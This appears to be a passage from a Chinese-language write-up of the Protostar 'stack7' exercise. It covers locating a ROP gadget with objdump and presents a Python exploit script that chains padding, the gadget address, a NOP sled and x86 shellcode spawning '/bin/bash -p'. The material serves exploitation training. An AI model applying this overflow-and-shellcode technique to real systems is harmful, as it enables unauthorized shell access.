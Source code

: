 在汇编代码中找gadget：

```shell
$ objdump -d -M intel stack7
```

<img src=".\stack7-disassemble-3.png" style="zoom:80%;" />

找到一段gadget，其入口地址为0x08048492。

所以我们需要准备覆写的字符串由下图中这几部分构成。

<img src=".\stack7-analysis-3.png" style="zoom:67%;" />

综上所述，可拟攻击脚本如下：

```python
# stack7_rop.py
import struct

padding = "A" * 80
ppr = struct.pack("I", 0x08048492) # gadget的入口地址
pop1 = "AAAA" # pop给eax
pop2 = "BBBB" # pop给ebp
ret = struct.pack("I", 0xbffffd1c+32) # esp+32
slide = "\x90" * 50 # nop块
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print padding + ppr + pop1 + pop2 + ret + slide + shellcode
```

